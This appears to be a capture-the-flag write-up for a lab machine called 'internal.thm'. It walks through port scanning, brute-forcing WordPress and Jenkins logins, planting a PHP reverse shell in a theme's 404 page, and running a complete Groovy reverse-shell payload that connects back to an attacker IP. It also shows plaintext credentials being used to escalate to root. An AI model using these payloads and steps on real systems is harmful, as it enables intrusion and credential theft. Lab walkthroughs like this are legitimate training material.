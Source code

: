 # Internal-Writeup
## Recon

Machine booted, let's see if it is up with some pings
```
ping 10.10.247.233                         
PING 10.10.247.233 (10.10.247.233) 56(84) bytes of data.
64 bytes from 10.10.247.233: icmp_seq=1 ttl=63 time=80.8 ms
64 bytes from 10.10.247.233: icmp_seq=2 ttl=63 time=81.8 ms
^C
--- 10.10.247.233 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 80.812/81.283/81.754/0.471 ms
```

Machine is up, let's do some basic port scan
`nmap -p- -O -A -sV 10.10.247.233`
Output:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   57.43 ms 10.8.0.1
2   57.51 ms internal.thm (10.10.247.233)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.97 seconds
```
Interesting. No more ports open besite http. This will be web based penetration testing.

## Web application recon
MANUAL:
- Index page is showing the default ubuntu-apache page. No significant html comments are made inside
- robots.txt sitemap.xml php.ini and more files give 404. There must be some directories that are hosting website outside /var/www/html so we will have to switch to automated method or brute forcing directories

AUTOMATED:
- Using dirbuster we brute forced directories on given server.
Results:
```
/phpmyadmin/ (shows login page of phpmyadmin, not outdated vulnerable version)
/blog/ (dirbuster detected some basic wordpress directories and files which confirms this is wordpress based website)
```

While looking at the index page of blog we only see basic page with twentyseventeen theme. 
Looking at source code we don't see anything crucial, we can see plugins, themes, some uploads but nothing crucial.
As I checked for robots.txt which returned 404 i remembered i should check for sitemap.xml which can give me informations about users and authors which i can later brute force on login if i don't find any vulnerable theme or plugin.
But sitemap.xml returned 404 so i ran my tool which enumerates authors and usernames through the archives and posts.
We got username `admin` which we will note for the case where we don't find any vulnerability.
For scanning vulnerabilities on wordpress websites we will use `WPscan` which is great enumeration and vulnerability scanning tool.
Unfortunately we found 39 vulnerabilities which are probably not intentionally left there so we will brute force login with same tool and we can get back to those CVEs later.

Using a `/usr/share/wordlists/rockyou.txt` wordlist we will attack the wp-login.php page which is located in `http://internal.thm/blog/wp-login.php`.
Bingo! `Valid Combinations Found: Username admin, Password my2boys`
We will use these given credentials to login on the admin panel
`admin:my2boys`

## Getting access
After successfully logging in the admin panel, we get prompted with question if we want to update the admin email or leave it as it is.
We will skip on this one because our goal is getting webshell or reverse shell.
For this purposes idea is to edit built-in pages with the malicious code which will execute under condition that we visit website.

So twentyseventeen is a theme. Themes got their own custom 404 page that will run when you visit non-existing page. So for a fact we know that we can modify that page which we will do.
Through the admin panel, we can see the side menu on left side which contains tab themes.
So the path is `Themes>>Theme editor>>404.php`

`https://github.com/pentestmonkey/php-reverse-shell`is great for these purposes as it can run as logic bomb when visited. You can download it, modify by just adding your ip address and port as following:
```
$ip = '10.8.22.53';  // CHANGE THIS TO YOUR IP
$port = 1234;       // CHANGE THIS TO WANTED PORT
```
And you can finally start your connection listener on all interfaces by running `nc -lvnp 1234` in your command line.
After pasting whole reverse shell code in the 404 template you can press `Publish` and visit the page with following url http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
Bingo! Reverse shell!
```
$ nc -lvnp 1234            
listening on [any] 1234 ...
connect to [10.8.22.53] from (UNKNOWN) [10.10.247.233] 54424
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:52:46 up  3:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We got access as `www-data`

## Internal recon
So we got the reverse shell which is unstable to use and which i don't recommend for holding onto on longer pentests. So we will stabilise it by running:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
Press ENTER
export TERM=xterm
```
This would make it more stable and better looking and even more useful.
By trying to visit `/home` directory we encounter `aubreanna` to which we do not have access to enter. So privilege escalation takes part here.
We are unable to run `sudo -l` but remember we are www-data. We can download and run linpeas and polkits and more if we don't find anything significant.

With enumerations script and techniques we did not find anything that would help us escalate privileges beside modern vulnerabilities that would be considered cheating as the machine is not intended to be used that way.
Linpeas-ng leads us to /opt directory with sensitive file containing credentials called wp-save.txt which content is this:
```
www-data@internal:/opt$ cat wp-save.txt
Bill,
Aubreanna needed these credentials for something later.  Let her know you have them and where they are.
aubreanna:bubb13guM!@#123
```
By running `su aubreanna` we are becoming that user!
Now we will go and examine home directory
```
aubreanna@internal:/opt$ cd ~
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
THM{int3rna1_fl4g_1}
aubreanna@internal:~$
```
Hmm but what is this `jenkins.txt` let's see.
```
aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```
Let's check if it is still running with netstat.
`tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     `
and yes, it is running.

We will have to do ssh tunelling so we can access the internal service that can be only visited through localhost.
We can do that with following command:
```
ssh -L 9090:127.0.0.1:8080 aubreanna@internal.thm
```
This would be able to run jenkins service on our 9090 port which we can access through 127.0.0.1:9090
As we have access to it, we should try default credentials on the login page.
[jenkins:jenkins, admin:password and etc] did not work so we will have to move to brute forcing.
It is known that default username for jenkins is either `jenkins` or `admin` (which we already met in wordpress) so we will try admin one first.
Using burp suite we will brute force login page and we will use top 10 million passwords wordlist as payload with it.

After some time, correct password was found and it was `spongebob`
Now we will log in with following credentials: `admin:spongebob`
After snooping around and checking function by function I have found the `Script Console` which can run arbitary groovy scripts inside of `Manage Jenkins` tab in side menu on left side. So I was almost sure that root was running jenkins or someone with enough privileges to have root acces so I thought reverse shell would be answer.
Using following payload I got reverse shell:
```
String host="10.8.22.53"; 
int port=1234;
 String cmd="bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
And whalla! We got the Jenkins user about which I was partly right. First place I checked was /opt directory and I was right. It changed. Notice we got `notes.txt` file which contains everything we need:
```
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

## Final show
